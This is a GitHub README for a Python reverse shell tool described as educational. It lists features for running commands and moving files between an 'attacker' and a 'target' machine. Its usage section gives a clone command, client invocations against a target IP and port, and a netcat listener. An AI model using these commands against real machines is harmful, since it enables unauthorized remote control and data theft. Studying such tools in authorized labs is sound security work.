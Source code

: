# Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py -h
python3 reverse_shell.py client --ip[target_ip] --port[target_port] 
nc -lvp <target_port>
whoami
user
upload example.txt
download example.txt
cd /tmp
exit

python3 combined_shell.py client --ip 192.168.1.10 --port 4444

Send a command:
whoami

Receive the output:
user


